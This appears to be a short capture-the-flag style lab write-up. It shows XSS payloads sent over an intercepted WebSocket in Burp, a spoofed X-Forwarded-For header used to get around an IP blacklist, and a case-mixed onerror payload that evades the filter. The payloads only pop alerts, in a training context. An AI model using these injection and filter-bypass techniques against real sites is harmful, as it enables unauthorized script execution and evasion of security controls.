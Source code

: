 # Manipulating the WebSocket handshake to exploit vulnerabilities
Use Burp proxy to intercept ws messages. When a request containing < is sent to the sever, it us encoded as `&lt;`
Then send it to repeater. First I tried sending `<script>alert(1)</script>`, which didn't do anything. After that, I tried `<img src=1 onerror='alert(1)'>` which then got my IP blacklisted.
```json
{
    "message": "<img src=1 onerror='alert(1)'>"
}
```
I reopened the socket using burp, but included `X-Forwarded-For: 1.1.1.1` header, which let me open sockets that weren't blacklisted.
I tried a few times with different payloads, but ended on
```json
{
    "message": "<img src=1 oNeRrOr=alert`1`>"
}
```
